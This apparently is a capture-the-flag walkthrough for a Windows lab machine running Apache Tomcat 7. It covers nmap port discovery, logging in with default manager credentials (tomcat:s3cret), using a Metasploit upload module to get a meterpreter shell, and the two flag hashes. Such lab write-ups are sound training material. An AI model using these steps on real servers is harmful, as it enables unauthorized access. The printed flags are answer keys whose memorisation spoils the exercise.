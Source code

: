 # Jerry

*Windows* - It's realistic as Apache Tomcat often is found exposed and configured with common or weak credentials.

--------------

## Task 1

Which TCP port is open on the remote host?

## Solution 1

Starting the `nmap` scan such as:

```sh
nmap -sC -T4 10.10.10.95
```

doesn't work, with the note `Host seems down. If it is really up, but blocking our ping probes, try -Pn`.

So let's try with the option to block ping probes:

```sh
nmap -sC -Pn -T4 10.10.10.95
```

This provides with the results:

```sh
PORT     STATE SERVICE
8080/tcp open  http-proxy
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

So the answer is `8080`.

----------

## Task 2

Which web server is running on the remote host? Looking for two words.

## Solution 2

From the results above we see that the web server running on the host is `Apache Tomcat`.

---------

## Task 3

Which relative path on the webserver leads to the Web Application Manager?

## Solution 3

On the main page of the webpage there is a link `manager webapp`, which goes to the link `/manager/html`.

----------

## Task 4

What is the valid username and password combination for authenticating into the Tomcat Web Application Manager? Give the answer in the format of username:password

## Solution 4

I tried some credentials such as `admin:admin` and I got a `403 Access Denied`, which showed also a page, which tells the default credentials:

```sh
If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.
```


---------------

## Task 5

Which file type can be uploaded and deployed on the server using the Tomcat Web Application Manager?

## Solution 5

On the page where I got access with the credentials there is a section `Deploy` and there is also a subsection to upload `.war` files.

----------

## Task 6

Submit the flag located on the user's desktop.

## Solution 6

Let's try to exploit it using the `tomcat_jsp_upload_bypass` on `Metasploit`.

Edit the following options:
- HttpPassword - `s3cret`.
- HttpUsername - `tomcat`.
- RHOSTS - Ip of the machine.
- RPORT - Port of the machine.
- LHOST - IP address of our machine.

And then run `exploit`.

This gives us `meterpreter`. Navigate to `C:\Users\Administrator\Desktop` and you have a folder `flags`.

Inside there is a file names `2 for the price of 1.txt`.

`cat` to it to read the content, which is `7004dbcef0f854e0fb401875f26ebd00`.

-----------

## Task 7

Submit the flag located on the administrator's desktop.

## Solution 7

When we read the file on the `Task 6` the result was:

```sh
meterpreter > cat 2\ for\ the\ price\ of\ 1.txt 
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```

The final flag, is the content of the `root.txt`.
